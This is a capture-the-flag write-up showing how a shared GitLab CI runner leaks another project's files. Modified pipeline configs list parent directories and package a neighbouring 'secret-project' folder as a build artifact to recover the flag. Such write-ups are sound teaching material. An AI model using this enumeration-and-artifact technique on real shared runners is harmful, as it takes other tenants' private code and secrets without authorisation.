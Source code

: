 In this challenge you have access to a Gitlab repo with a runner.

After briefly checking the commit history, and not finding anything, it's time to focus on the runner.

I started by listing all the directories:

```yml
stages:
  - prepare
  - test
  - deploy
before_script:
  - apt-get update && apt-get install -y curl
  - ls -al .
  - ls -al ..
  - ls -al ../..
  - ls -al ../../..
prepare:
  stage: prepare
  script:
    - echo "Preparing environment..."
test:
  stage: test
  script:
    - echo "Running tests..."
    - echo "No tests defined"
deploy:
  stage: deploy
  script:
    - echo "Deploying the application..."
    - echo "No deployment defined"
  only:
    - main
```

```
$ ls -al ../..
total 16
drwxrwxr-x 4 gitlab-runner gitlab-runner 4096 Oct 24 21:17 .
drwxrwxr-x 3 gitlab-runner gitlab-runner 4096 Oct 24 21:17 ..
drwxrwxr-x 4 gitlab-runner gitlab-runner 4096 Oct 24 21:17 User
drwxrwxr-x 4 gitlab-runner gitlab-runner 4096 Oct 24 21:17 root
```

We can then inspect this interesting `root` directory:

```yml
stages:
  - prepare
  - test
  - deploy
before_script:
  - apt-get update && apt-get install -y curl
  - ls -al ../../root
prepare:
  stage: prepare
  script:
    - echo "Preparing environment..."
test:
  stage: test
  script:
    - echo "Running tests..."
    - echo "No tests defined"
deploy:
  stage: deploy
  script:
    - echo "Deploying the application..."
    - echo "No deployment defined"
  only:
    - main
```

```
$ ls -al ../../root
total 16
drwxrwxr-x 4 gitlab-runner gitlab-runner 4096 Oct 24 21:17 .
drwxrwxr-x 4 gitlab-runner gitlab-runner 4096 Oct 24 21:17 ..
drwxrwxr-x 6 gitlab-runner gitlab-runner 4096 Oct 24 21:17 secret-project
drwxrwxr-x 3 gitlab-runner gitlab-runner 4096 Oct 24 21:17 secret-project.tmp
```

At this point, enumerating things got annoying so I decided to simply download the `root/secret-project` folder:

```yml
stages:
  - prepare
  - test
  - deploy
before_script:
  - apt-get update && apt-get install -y curl
  - ls -al ../../root
prepare:
  stage: prepare
  script:
    - echo "Preparing environment..."
    - tar -cvf my_folder.tar.gz ../../root/secret-project 
  artifacts:
    paths:
	    - my_folder.tar.gz
    expire_in: 1 week
test:
  stage: test
  script:
    - echo "Running tests..."
    - echo "No tests defined"
deploy:
  stage: deploy
  script:
    - echo "Deploying the application..."
    - echo "No deployment defined"
  only:
    - main
```

The flag is simply in the `readme.md`:

`ECW{B3_c4reFU11_WiTh_Th053_Sh4rr3d_RunN3r5}`